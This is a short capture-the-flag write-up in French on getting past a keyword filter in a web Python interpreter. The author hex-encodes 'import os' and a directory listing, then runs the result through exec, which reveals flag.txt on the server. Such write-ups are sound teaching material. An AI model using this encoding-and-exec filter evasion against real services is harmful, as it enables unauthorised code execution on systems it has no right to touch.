

# Pyterpreter filters



## Challenge :

On a le même site, et on veut le flag, c'est tout.

## Stratégie :

On peut déjà regarder les fichiers comme avant :

```py
import os
print(os.listdir())

> Tu ne peux pas mettre 'os' dans ton code !<br/>Tu ne peux pas mettre 'import' dans ton code !<br/>
```

Mince, ça marchera pas.

Essayons d'encoder ça :

```py
import os
print(os.listdir())
```

Ca deviens 

```
\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x0a\x70\x72\x69\x6e\x74\x28\x6f\x73\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x29\x29
```

On essaie :

```py
t = "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x0a\x70\x72\x69\x6e\x74\x28\x6f\x73\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x29\x29".encode('raw_unicode_escape').decode('utf8')
exec(t)

> ['__pycache__', 'code_file', 'templates', 'static', 'app.py', 'flag.txt', 'requirements.txt']
```

Et il suffit juste de faire comme si il n'y avait pas de filtre !